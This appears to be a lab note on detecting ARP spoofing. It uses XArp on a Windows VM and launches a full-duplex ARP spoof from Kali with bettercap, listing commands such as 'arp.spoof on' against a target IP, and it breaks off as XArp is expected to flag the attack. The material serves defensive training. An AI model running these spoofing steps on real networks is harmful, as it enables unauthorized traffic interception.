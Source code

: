 **Detection and Defence**

Tools: XArp
Install on the Windows VM
- Shows the IPs and MAC addresses of connected clients on the network

View network details:
```sh
ipconfig
```

```sh
arp -a
```

On our Kali machine we can run bettercap to see how XArp on the Windows machine responds.

Start bettercap
```sh
sudo bettercap -iface eth0
```

Check help menu
```sh
help
```

Get extended information on specific modules
```sh
help arp.spoof
```

Put spoof into full duplex mode so it interacts with both the access point and the Windows VM
```sh
set arp.spoof.fullduplex true
```

Manually set the target (the Windows VM)
```sh
set arp.spoof.targets <target-ip>
```

Start ARP spoof
```sh
arp.spoof on
```

In Xarp on the Windows VM the status now should change to detect the attack:
